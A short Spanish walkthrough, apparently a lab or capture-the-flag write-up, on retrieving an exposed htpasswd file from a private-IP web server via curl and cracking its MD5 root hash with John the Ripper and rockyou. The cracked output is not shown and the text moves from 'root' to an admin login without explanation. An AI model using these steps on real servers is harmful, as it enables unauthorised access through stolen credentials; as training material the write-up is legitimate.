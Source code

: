 # Explotación archivo htpasswd

En el reconocimiento inicial, hemos visto que el servidor usa el fichero **robots.txt** para ocultar ciertos archivos o directorios de crawlers.


Nos centramos aquí en la carpeta **whatever**, en donde encontramos un archivo **htpasswd**, que es un archivo de credenciales para acceso por roles.

Obtenemos el archivo en local para ver su contenido.

```bash
curl http://192.168.13.47/whatever/htpaswd -o htpasswd -L && cat htpasswd

root:437394baff5aa33daa618be47b75cb49
```

Hemos obtenido un archivo con lo que parece ser credenciales para el usuario root, y el hash es sospechosamente parecido a un **MD5**.

Lanzamos un john para ver si podemos crackearlo.

```
./john --format=raw-md5 --wordlist=rockyou.txt ./htpasswd


```

Son credenciales de admin, pues nos intentamos loggear como admin.